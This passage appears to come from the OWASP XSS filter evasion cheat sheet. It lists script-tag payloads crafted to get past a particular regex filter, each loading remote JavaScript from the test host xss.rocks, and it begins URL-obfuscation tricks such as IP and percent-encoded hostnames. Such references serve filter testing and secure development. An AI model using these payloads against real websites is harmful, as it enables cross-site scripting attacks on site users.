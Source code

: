 Yet another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`. I know I said I wasn't goint to discuss mitigation techniques but the only thing I've seen work for this XSS example if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags):

```
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):

```
<SCRIPT a=`>`SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Here's an XSS example that bets on the fact that the regex won't catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

```
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### URL String Evasion[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#url-string-evasion)

Assuming `http://www.google.com/` is programmatically disallowed:

#### IP Versus Hostname[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#ip-versus-hostname)

```
<A HREF="http://66.102.7.147/">XSS</A>
```

#### URL Encoding[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#url-encoding)

```
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

#### DWORD Encoding[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#dword-encoding)

Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:
